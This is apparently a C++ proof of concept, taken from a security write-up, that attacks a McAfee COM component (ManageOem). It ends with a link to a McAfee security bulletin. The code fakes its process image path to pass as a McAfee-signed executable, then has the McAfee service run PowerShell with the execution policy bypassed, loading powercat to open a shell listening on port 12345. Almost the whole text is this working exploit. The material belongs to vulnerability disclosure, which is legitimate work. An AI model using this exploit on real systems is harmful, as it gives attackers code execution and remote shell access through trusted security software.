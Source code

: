 _COM_SMARTPTR_TYPEDEF(IManageOem, __uuidof(IManageOem));

int main()
{
    try
    {
        HRESULT hr = ::CoInitializeEx(0, COINIT_MULTITHREADED);
        if (FAILED(hr))
            throw std::runtime_error("CoInitializeEx failed. Error: " + std::to_string(hr));
        auto coUninitializeOnExit = wil::scope_exit([] {::CoUninitialize(); });

        const GUID CLSID_CoManageOem =
            { 0x77b97c6a, 0xcd4e, 0x452c, { 0x8d, 0x99, 0x08, 0xa9, 0x2f, 0x1d, 0x8c, 0x83 } };
        IMcClassFactoryPtr pMcClassFactory;

        hr = ::CoGetClassObject(
            CLSID_CoManageOem,
            CLSCTX_LOCAL_SERVER,
            nullptr,
            IID_PPV_ARGS(&pMcClassFactory));
        if (FAILED(hr))
            throw std::runtime_error("CoGetClassObject failed. Error: " + std::to_string(hr));

        const auto thisModulePath = fs::path(wil::GetModuleFileNameW<std::wstring>(NULL));
        auto thisModuleParentDirectoryPath = thisModulePath.parent_path();

        auto mcAfeeSignedImagePath = McLaunchExePath;
        MasqueradeImagePath(mcAfeeSignedImagePath);

        IManageOemPtr pManageOem;

        hr = pMcClassFactory->InternalCreateObject(
            __uuidof(pManageOem), reinterpret_cast<LPVOID *>(&pManageOem));
        if (FAILED(hr))
            throw std::runtime_error("InternalCreateObject failed. Error: " + std::to_string(hr));

        auto cmdLineString = std::wstring(LR"(-nop -ep bypass -c ". )") + (thisModuleParentDirectoryPath / L"powercat.ps1").wstring() + LR"(;powercat -l -p 12345 -ep")";

        auto exePath = ::SysAllocString(LR"(C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe)");
        auto cmdLine = ::SysAllocString(cmdLineString.c_str());
        auto freeBstrStringsOnExit =
            wil::scope_exit([exePath, cmdLine] { ::SysFreeString(exePath); ::SysFreeString(cmdLine); });

        int errorCode;

        hr = pManageOem->RunProgram(exePath, cmdLine, &errorCode);
        if (FAILED(hr))
            throw std::runtime_error("RunProgram failed. Error: " + std::to_string(hr));
    }
    catch (const std::exception &e)
    {
        std::cerr << "Exception: " << e.what() << std::endl;
        return -1;
    }

    return 0;
}
{% endhighlight %}


[McAfee Security Bulletin]: http://service.mcafee.com/FAQDocument.aspx?&id=TS103114